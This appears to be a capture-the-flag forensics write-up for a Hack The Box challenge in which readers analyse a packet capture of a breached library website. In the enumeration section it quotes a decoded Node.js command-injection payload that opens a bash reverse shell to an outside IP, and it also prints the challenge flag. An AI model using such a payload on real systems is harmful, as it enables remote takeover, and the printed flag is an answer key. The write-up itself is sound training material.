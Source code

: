 ![img](assets/banner.png)

<img src='assets/htb.png' style='zoom: 40%;' align=left /> <font size='4'>Forbidden Manuscript</font>

26<sup>th</sup> Oct 2024

Prepared By: `gordic`

Challenge Author(s): `gordic`

Difficulty: <font color='green'>Very Easy</font>

<br><br>

# Synopsis

- The user is tasked with performing PCAP analysis. The challenge is straightforward: the user must analyze HTTP requests within the network capture to uncover details of the incident. One of the streams contains an encoded payload.

## Description

- On the haunting night of Halloween, the website of "Shadowbrook Library"—a digital vault of forbidden and arcane manuscripts—was silently breached by an unknown entity. Though the site appears unaltered, unsettling anomalies suggest something sinister has been stolen from its cryptic depths. Ominous network traffic logs from the time of the intrusion have emerged. Your task is to delve into this data and uncover any dark secrets that were exfiltrated.

Flag: `HTB{f0rb1dd3n_m4nu5cr1p7_15_1n_7h3_w1ld}`

## Skills Required

- Basic wireshark usage
- Basic .pcap analysis
- Hex encoding/decoding

## Skills Learned (!)

- Packet analysis
- Detection of command injection
- Reverse shell analysis

# Enumeration (!)

The challenge provides a PCAP file named `capture.pcap`. We can start by opening the file in Wireshark.

![Writeup 1](assets/writeup1.png)

We can follow first HTTP stream by right-clicking on the first HTTP packet and selecting `Follow > HTTP Stream`. We are greeted with a windows that shows the HTTP requests and responses.

![Writeup 2](assets/writeup2.png)

Upon examining the HTTP streams, we find an encoded string in stream 4. We can copy this string and decode it using an online tool or a Python script.

![Writeup 3](assets/writeup3.png)

First, we perform URL decoding on the string. The decoded string is:

> exploit() {} && ((()=>{ global.process.mainModule.require("child_process").execSync("bash -c 'bash -i >& /dev/tcp/192.168.56.104/4444 0>&1'"); })()) && function pwned

This appears to be a reverse shell payload. After closing the HTTP stream, we scroll down to the end of stream 4 in Wireshark and notice numerous TCP packets. These packets represent the reverse shell connection, indicated by the use of port 4444 as specified in the payload.

![Writeup 4](assets/writeup4.png)

We can follow this TCP stream by right-clicking on the first TCP packet and selecting `Follow > TCP Stream`. This reveals the reverse shell commands being executed, and we can see the flag being displayed in the terminal.

![Writeup 5](assets/writeup5.png)

To retrieve the flag, we use CyberChef's "From Hex" function to decode it.

Encoded Flag: `4854427b66307262316464336e5f6d346e753563723170375f31355f316e5f3768335f77316c647d`

Decoded Flag: `HTB{f0rb1dd3n_m4nu5cr1p7_15_1n_7h3_w1ld}`